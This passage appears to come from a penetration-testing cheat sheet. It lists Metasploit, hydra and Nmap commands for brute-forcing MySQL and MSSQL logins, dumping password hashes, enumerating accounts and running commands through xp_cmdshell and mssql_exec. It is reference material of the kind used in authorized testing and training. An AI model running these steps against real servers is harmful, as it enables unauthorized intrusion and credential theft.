 <a id="5.17"></a>
## MySQL Dictionary Attacks

```bash
msf5 > use auxiliary/scanner/mysql/mysql_login
msf5 auxiliary > set RHOSTS [TARGET]
msf5 auxiliary > set PASS_FILE /path/to/passfiles
msf5 auxiliary > set USERNAME [USERNAME]
$ hydra -L {/path/to/usr|[USERNAME]} -P /path/to/passwords [TARGET] mysql
```

<a id="5.18"></a>
## MSSQL Nmap Scripts

| Script                 | Function                                                          | Args                             |
|----------------------- | ----------------------------------------------------------------- | -------------------------------- |
| ms-sql-info            | Get information about the MSSQL server.                           |                                  |
| ms-sql-ntlm-info       | Get information about the MSSQL server interaction with NTLM.     | mssql.instance                   |
| ms-sql-brute           | Bruteforce the login credentials.                                 | userdb, passdb, mssql.instance   |
| ms-sql-empty-passwords | Searches for accounts without passwords.                          |                                  |
| ms-sql-query           | Send a query. Recommended to use -oN                              | .username, .password, .query     | 
| ms-sql-dump-hashes     | Dump account password hashes.                                     | .username, .password             |
| ms-sql-xp-cmdshell     | Attempt to execute commands.                                      | username, password, .cmd       |

Interesting queries:

- SELECT * FROM master..syslogins 

<a id="5.18"></a>
## MSSQL Metasploit.

```bash
msf5 > use auxiliary/scanner/mssql/mssql_login
msf5 auxiliary > set RHOSTS [TARGET]
msf5 auxiliary > set USER_FILE /path/to/users
msf5 auxiliary > set PASS_FILE /path/to/passwords
msf5 > use auxiliary/admin/mssql/mssql_enum
msf5 auxiliary > set RHOSTS [TARGET]
msf5 > use auxiliary/admin/mssql/mssql_enum_sql_logins
msf5 auxiliary > set RHOSTS [TARGET]
msf5 > use auxiliary/admin/mssql/mssql_exec
msf5 auxiliary > set CMD [CMD]
msf5 > use auxiliary/admin/mssql/mssql_enum_domain_accounts
```
<a id="6"></a>
# Recon: Vulnerability Assessment. 
